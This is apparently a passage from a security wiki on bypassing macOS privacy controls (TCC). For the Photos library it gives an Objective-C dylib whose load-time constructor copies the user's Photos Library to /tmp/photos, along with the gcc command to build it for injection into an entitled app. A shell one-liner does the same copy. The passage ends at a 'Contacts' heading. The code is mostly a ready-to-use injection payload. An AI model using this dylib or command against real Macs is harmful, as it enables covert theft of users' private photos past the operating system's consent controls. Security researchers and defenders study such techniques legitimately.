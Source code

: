 ### Photos Library

* **Entitlement**: `com.apple.security.personal-information.photos-library`
* **TCC**: `kTCCServicePhotos`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Pictures/Photos Library.photoslibrary` to `/tmp/photos`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Pictures/Photos Library.photoslibrary"];
    NSString *tmpPhotosPath = @"/tmp/photos";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Pictures/Photos Library.photoslibrary` to `/tmp/photos`.

```bash
cp -r "$HOME/Pictures/Photos Library.photoslibrary" "/tmp/photos"
```
{% endtab %}
{% endtabs %}

### Contacts
